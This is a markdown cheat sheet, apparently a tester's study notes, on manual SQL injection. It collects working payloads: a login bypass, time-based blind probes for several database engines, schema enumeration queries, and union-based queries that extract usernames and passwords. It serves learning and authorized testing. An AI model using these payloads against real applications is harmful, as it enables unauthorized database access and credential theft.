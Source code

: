# SQL Injections

```default
  _   ___  ___  ___  ___   ___   _ _____ _   ___   _   ___ ___                    _           
 ( ) |   \| _ \/ _ \| _ \ |   \ /_\_   _/_\ | _ ) /_\ / __| __|  _ __ _ _ ___  __| |  ___ ___ 
 |/  | |) |   / (_) |  _/ | |) / _ \| |/ _ \| _ \/ _ \\__ \ _|  | '_ \ '_/ _ \/ _` | |___|___|
     |___/|_|_\\___/|_|   |___/_/ \_\_/_/ \_\___/_/ \_\___/___| | .__/_| \___/\__,_|          
                                                                |_|                           
```

This file is mostly for **manual SQL injections**. 

There should be separate notes for SQLMap somewhere.

## Table of Contents:

* [Detection](./sql_injection.md#detection)
* [Comments](./sql_injection.md#comments)
* [Enumeration](./sql_injection.md#database-software-enum)
* Union-Based
* Error-Based
* Time-Based
* Concat rows

## Detection

When doing manual enum, throw some special characters into a parameter and see if it breaks anything in an unexpected way:

```default
'"(){};
```
```default
'"(){}; -- -#/*
```

But you might also be able to trigger a lot with just a single `'`.

The most basic SQL login bypass:

* user: `' or '1'='1'-- -`
* pass: `' or '1'='1'-- -`


Sometimes you need to escape a function first before you can execute any query:
```default
') <your injection> -- -
```
or
```default
) <your injection> -- -
```

It might require a bunch of brackets: `'))) <your injection> -- -`


Some SQL injections are blind, they do not return anything visible on the page like added data or an error message. You usually can check those with time based delays.

```default
;WAITFOR DELAY '0:0:5'-- -
);WAITFOR DELAY '0:0:5'-- -
');WAITFOR DELAY '0:0:5'-- -
;WAIT FOR DELAY '0:0:5'-- -
);WAIT FOR DELAY '0:0:5'-- -
');WAIT FOR DELAY '0:0:5'-- -
;SELECT PG_SLEEP(5)--
);SELECT PG_SLEEP(5)--
');SELECT PG_SLEEP(5)--
-SLEEP(15)
-BENCHMARK(100000000, rand())
```

If the server seems to 'freeze' for the given sleep time, then it worked.

## Comments

* MySQL: #, --
* MS SQL: --
* MS Access: %00 (hack!)
* Oracle: --

You often need to get rid of the part of the query that comes after your injection. You can do that by simply commenting out the remainder of the query.

Most often the two minuses work:
```default
--
```

But sometimes it is required that there is a space after the minuses: `-- `. An additional character afterwards ensures the space does not get removed in some strip() or trim() function.

So this is the preferred method that almost always work:
```default
-- -
```

Multi-line comments are also supported sometimes: `/* comment goes here */`. 
Obviously this might not always work because you can only control the comment start `/*`. 
Maybe you can create some funny results through multiple injection points into the same query.

Some engines also support the hash character `#` to initiate a comment.


## Database Software Enum

After gaining basic control, the first thing you want to do is try to find out what you are working with. That will determine the syntax you have to use and where you have to look for interesting data.

### Version

* Oracle : `select banner from v$version-- -`
* Mysql : `select VERSION();` ;alternatively: `SELECT @@version`
* MSSQL : `SELECT @@version`
* PostgreSQL : `SELECT version()`

### Tables

Databases besides Oracle usually support:

```default
SELECT * FROM information_schema.tables
SELECT TABLE_CATALOG TABLE_SCHEMA TABLE_NAME TABLE_TYPE FROM information_schema.tables
```

The rows of a table work similar:
```default
SELECT * FROM information_schema.columns WHERE table_name = 'Users'
SELECT TABLE_CATALOG TABLE_SCHEMA TABLE_NAME COLUMN_NAME DATA_TYPE WHERE table_name = 'Users'
```

Oracle all tables:
```default
SELECT * FROM all_tables
SELECT TABLE_NAME,TABLESPACE_NAME,OWNER FROM all_tables
```

Oracle column names:
```default
SELECT * FROM all_tab_columns
SELECT COLUMN_NAME,DATA_TYPE,TABLE_NAME FROM all_tab_columns WHERE TABLE_NAME='users'
```

### Current User
```default
session_user
current_user
user
user()
```

## Union-based attacks

* When to use:    There is a generated list/table of items generated by an injectible query
* Target result:  Include the rows of another table into the generated list/table (like username, password of a users table)

### Figure out number of selected rows

You can use the `order by` keyword. The query will error out if you order by a number greater than the available rows.

```default
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
' ORDER BY 4--
... etc.
```

Alternatively you might be able to union select some data constants:

```default
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
... etc.
```

or

```default
' UNION SELECT 1--
' UNION SELECT 1,2--
' UNION SELECT 1,2,3--
... etc.
```

The last version might not always work, but the benefit is that you can see where each row ends up in the printed table.

Figure out data type of each row:
```default
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'-- 
```

For integers do the same with some number.

On Oracle you might have to use a table even for constant data values, use the build-in DUAL table then:
```default
' UNION SELECT NULL,NULL FROM DUAL--. 
```

### Example
```default
' union select username,password from users-- -
```


## Concatinate several rows

Maybe you can only control a single row or you have to deal with multi line output, then you need to concat content.

### Oracle:

```default
' union select NULL,username || '~' ||password from users-- -
```

Which selects the rows username and password into one row like 'admin~password123'










